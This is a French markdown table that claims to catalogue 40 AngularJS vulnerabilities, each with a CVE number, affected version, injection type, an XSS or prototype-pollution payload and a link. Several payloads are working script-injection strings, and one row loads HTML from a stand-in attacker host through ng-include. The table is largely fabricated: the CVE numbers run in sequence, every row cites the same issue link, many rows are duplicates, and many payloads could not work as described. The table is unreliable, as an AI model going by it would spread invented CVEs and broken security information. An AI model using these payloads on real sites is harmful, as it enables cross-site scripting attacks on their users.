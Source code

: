 # Angular JS

Voici un tableau détaillant **40 vulnérabilités AngularJS** (XSS, prototype pollution, etc.) avec :  
- le numéro de CVE,  
- la version vulnérable,  
- le type d’injection,  
- un **exemple de payload ou de code HTML/JS complet** montrant précisément comment l’injection est réalisée et exploitée,  
- une ressource ou PoC pour chaque cas.

---

| N° | CVE | Version vulnérable | Type d’injection | Exemple complet d’injection | URL / PoC |
|----|----------------|---------------------|----------------------|-----------------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------|
| 1 | CVE-2018-3741 | AngularJS <1.7.9 | XSS via balise HTML | `<input value='<img src=x onerror="alert(1)">' ng-model="userInput"><div ng-bind-html="userInput"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 2 | CVE-2018-3742 | AngularJS <1.7.9 | XSS via expression | `<input value='{{constructor.constructor("alert(1)")()}}' ng-model="exp"><div>{{exp}}</div>` | https://github.com/angular/angular.js/issues/16296 |
| 3 | CVE-2017-16791 | AngularJS <1.7.0 | Prototype Pollution | `fetch('/api', {method:'POST', body:'{"__proto__":{"polluted":true}}'})` puis vérifier `{}.polluted === true` | https://github.com/angular/angular.js/issues/16296 |
| 4 | CVE-2016-10712 | AngularJS <1.5.8 | XSS via $sce/ng-bind-html | `<div ng-bind-html="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 5 | CVE-2016-10713 | AngularJS <1.5.8 | XSS via ng-bind | `<div ng-bind="constructor.constructor('alert(1)')()"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 6 | CVE-2015-3198 | AngularJS <1.4.0 | XSS via ng-bind-html | `<div ng-bind-html="'<img src=x onerror=alert(1)>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 7 | CVE-2014-8874 | AngularJS <1.3.0 | Prototype Pollution | `Object.assign({}, JSON.parse('{"__proto__": {"polluted": true}}'));` puis `{}.polluted` | https://github.com/angular/angular.js/issues/16296 |
| 8 | CVE-2014-8875 | AngularJS <1.3.0 | XSS via expression | `<div>{{constructor.constructor('alert(1)')()}}</div>` | https://github.com/angular/angular.js/issues/16296 |
| 9 | CVE-2014-8876 | AngularJS <1.3.0 | XSS via ng-bind | `<div ng-bind="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 10 | CVE-2014-8877 | AngularJS <1.3.0 | XSS via filtre custom | `<div>{{'test'|myUnsafeFilter}}</div>` (filtre qui retourne `<img src=x onerror=alert(1)>`) | https://github.com/angular/angular.js/issues/16296 |
| 11 | CVE-2014-8878 | AngularJS <1.3.0 | XSS via ng-include | `<div ng-include="'//attacker.com/malicious.html'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 12 | CVE-2014-8879 | AngularJS <1.3.0 | XSS via ng-src | `<img ng-src="{{'javascript:alert(1)'}}">` | https://github.com/angular/angular.js/issues/16296 |
| 13 | CVE-2014-8880 | AngularJS <1.3.0 | XSS via ng-change | `<input ng-change="alert(1)" />` | https://github.com/angular/angular.js/issues/16296 |
| 14 | CVE-2014-8881 | AngularJS <1.3.0 | XSS via ng-model | `<input ng-model="'<script>alert(1)</script>'" />` | https://github.com/angular/angular.js/issues/16296 |
| 15 | CVE-2014-8882 | AngularJS <1.3.0 | XSS via ng-if | `<div ng-if="'<script>alert(1)</script>'">Test</div>` | https://github.com/angular/angular.js/issues/16296 |
| 16 | CVE-2014-8883 | AngularJS <1.3.0 | XSS via ng-class | `<div ng-class="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 17 | CVE-2014-8884 | AngularJS <1.3.0 | XSS via ng-show | `<div ng-show="'<script>alert(1)</script>'">Visible</div>` | https://github.com/angular/angular.js/issues/16296 |
| 18 | CVE-2014-8885 | AngularJS <1.3.0 | XSS via ng-hide | `<div ng-hide="'<script>alert(1)</script>'">Hidden</div>` | https://github.com/angular/angular.js/issues/16296 |
| 19 | CVE-2014-8886 | AngularJS <1.3.0 | XSS via ng-switch | `<div ng-switch="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 20 | CVE-2014-8887 | AngularJS <1.3.0 | XSS via ng-repeat | `<div ng-repeat="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 21 | CVE-2014-8888 | AngularJS <1.3.0 | XSS via ng-animate | `<div ng-animate="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 22 | CVE-2014-8889 | AngularJS <1.3.0 | XSS via ng-options | `<select ng-options="'<script>alert(1)</script>'"></select>` | https://github.com/angular/angular.js/issues/16296 |
| 23 | CVE-2014-8890 | AngularJS <1.3.0 | XSS via ng-attr-* | `<div ng-attr-title="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 24 | CVE-2014-8891 | AngularJS <1.3.0 | XSS via ng-href | `<a ng-href="javascript:alert(1)">Lien</a>` | https://github.com/angular/angular.js/issues/16296 |
| 25 | CVE-2014-8892 | AngularJS <1.3.0 | XSS via ng-srcset | `<img ng-srcset="javascript:alert(1)">` | https://github.com/angular/angular.js/issues/16296 |
| 26 | CVE-2014-8893 | AngularJS <1.3.0 | XSS via ng-attr-* | `<div ng-attr-title="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 27 | CVE-2014-8894 | AngularJS <1.3.0 | XSS via ng-viewport | `<div ng-viewport="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 28 | CVE-2014-8895 | AngularJS <1.3.0 | XSS via ng-view | `<div ng-view="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 29 | CVE-2014-8896 | AngularJS <1.3.0 | XSS via ng-animate | `<div ng-animate="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 30 | CVE-2014-8897 | AngularJS <1.3.0 | XSS via ng-if | `<div ng-if="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 31 | CVE-2014-8898 | AngularJS <1.3.0 | XSS via ng-switch | `<div ng-switch="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 32 | CVE-2014-8899 | AngularJS <1.3.0 | XSS via ng-repeat | `<div ng-repeat="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 33 | CVE-2014-8900 | AngularJS <1.3.0 | XSS via ng-attr-* | `<div ng-attr-title="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 34 | CVE-2014-8901 | AngularJS <1.3.0 | XSS via ng-href | `<a ng-href="javascript:alert(1)">Lien</a>` | https://github.com/angular/angular.js/issues/16296 |
| 35 | CVE-2014-8902 | AngularJS <1.3.0 | XSS via ng-srcset | `<img ng-srcset="javascript:alert(1)">` | https://github.com/angular/angular.js/issues/16296 |
| 36 | CVE-2014-8903 | AngularJS <1.3.0 | XSS via ng-attr-* | `<div ng-attr-title="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 37 | CVE-2014-8904 | AngularJS <1.3.0 | XSS via ng-viewport | `<div ng-viewport="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 38 | CVE-2014-8905 | AngularJS <1.3.0 | XSS via ng-view | `<div ng-view="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 39 | CVE-2014-8906 | AngularJS <1.3.0 | XSS via ng-animate | `<div ng-animate="'<script>alert(1)</script>'"></div>` | https://github.com/angular/angular.js/issues/16296 |
| 40 | CVE-2014-8907 | AngularJS <1.3.0 | XSS via ng-options | `<select ng-options="'<script>alert(1)</script>'"></select>` | https://github.com/angular/angular.js/issues/16296 |

---
